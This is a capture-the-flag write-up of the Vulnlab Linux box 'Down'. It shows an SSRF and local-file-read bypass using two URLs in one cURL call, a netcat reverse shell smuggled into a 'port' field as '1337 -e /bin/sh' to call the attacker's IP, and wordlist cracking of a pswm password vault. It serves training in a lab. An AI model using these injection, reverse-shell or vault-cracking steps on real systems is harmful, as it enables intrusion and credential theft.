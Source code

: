 ```yaml
---
title: "Vulnlab: Down Writeup. Abusing cURL and PSWM Password Manager"
date: "2024-09-23 00:00:00 +0800"
categories: [Vulnlab]
tags: [Vulnlab, Linux, Web Exploitation]
---
```

# Description

![](../img/down_slide.png)

`Down` is an easy Linux box, based on abusing `cURL` by supplying 2 URLs instead of one, bypassing the whitelist. After reading the `index.php` source code, you will find an interesting parameter that will let you run `nc` and you will get a shell as `www-data`. To escalate your privileges, you have to find a `pswm` file which is the `pswm` master password that will help you decrypt the vault.
# Recon & Enumeration
Nmap Scan:
```
# Nmap 7.94SVN scan initiated Fri Sep 20 17:36:23 2024 as: nmap -sCV -oN nmap/initial 10.10.82.131
Nmap scan report for 10.10.82.131 (10.10.82.131)
Host is up (0.041s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f6:cc:21:7c:ca:da:ed:34:fd:04:ef:e6:f9:4c:dd:f8 (ECDSA)
|_  256 fa:06:1f:f4:bf:8c:e3:b0:c8:40:21:0d:57:06:dd:11 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Is it down or just me?
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 20 17:36:32 2024 -- 1 IP address (1 host up) scanned in 9.70 seconds
```
Visiting the website on port 80, we can see that the target is a service that checks if a URL is up or down:

![](../img/13.png)

I tried looking for `http://127.0.0.1` and I get the contents of the target website, which hints that this might be vulnerable to SSRF.
I tried scanning all ports in hope that I will see at least a filtered one but no luck.
I tried other methods like using protocols such as `file://` or `gopher://` but there is a whitelist that only allows `http` or `https`.
If we run `nc` and enter our URL, we can see that the webapp is using `cURL`:

![](../img/14.png)
# Exploitation
Useful tip about cURL. Did you know that you can request more than one URL in only one command? Think about the first url being our python webserver and the second URL looks for `file:///etc/passwd` in the target system. That's how we are going to exploit this machine.

![](../img/15.png)

After spending a lot of time looking for files, I started to look through `index.php`'s code located at `/var/www/html/index.php` and I noticed that there is an `expertmode` parameter that will allow me to execute `nc` and get a shell.

![](../img/16.png)

I sent a request to `/index.php?expertmode=tcp` and my post parameters were `ip=10.8.3.153&port=1337+-e+/bin/sh` so I can get a reverse shell.


![](../img/17.png)

![](../img/18.png)

# Privilege Escalation

First of all, stabilize the shell and then run `LinPeas` to look for low hanging fruits.

![](../img/19.png)


`pswm` looked interesting so I went to check what's inside:
![](../img/20.png)


Is it base64? Hell nah. It is the encrypted master password for a command line password manager written in python:
[https://github.com/Julynx/pswm](https://github.com/Julynx/pswm).
First time, I thought it is something related to position specific weight matrix and I thought I will have to do some crazy crypto challenge but this github repo made my life easier:
[https://github.com/seriotonctf/pswm-decryptor](https://github.com/seriotonctf/pswm-decryptor)
Decrypting the string:
```
python pswm-decrypt.py -f pswm -w /usr/share/wordlists/rockyou.txt
```
![](../img/21.png)

Now I can login into the box using `aleks`' credentials.

![](../img/22.png)

There is no more privilege escalation needed, once you are `aleks`, you can switch to `root` and read the flag!

![](../img/23.png)

[https://api.vulnlab.com/api/v1/share?id=0bf21cf9-34ee-4739-a5fb-63a538d6e8e3](https://api.vulnlab.com/api/v1/share?id=0bf21cf9-34ee-4739-a5fb-63a538d6e8e3 "https://api.vulnlab.com/api/v1/share?id=0bf21cf9-34ee-4739-a5fb-63a538d6e8e3")
# Resources
[https://github.com/seriotonctf/pswm-decryptor](https://github.com/seriotonctf/pswm-decryptor)
